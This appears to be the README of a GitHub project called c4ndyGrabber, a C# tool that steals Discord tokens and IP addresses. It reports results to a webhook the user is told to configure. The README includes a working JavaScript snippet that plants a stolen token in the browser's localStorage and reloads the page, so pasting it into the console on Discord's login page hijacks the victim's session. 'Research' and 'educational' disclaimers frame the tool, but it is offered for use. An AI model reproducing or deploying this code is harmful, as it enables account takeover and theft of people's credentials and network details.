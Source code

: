 # c4ndyGrabber
# FOR RESEARCH PURPOSES ONLY!
C# Discord Token and IP grabber

Remember to change `webhook` otherwise the report wont be able to come.

### Login with token JS function

```
function login(token) { setInterval(() => { document.body.appendChild(document.createElement `iframe`).contentWindow.localStorage.token = `"${token}"` }, 50); setTimeout(() => { location.reload(); }, 2500); }

login("token")
```

> Paste it into console at login discord page

*Made only for educational purposes*
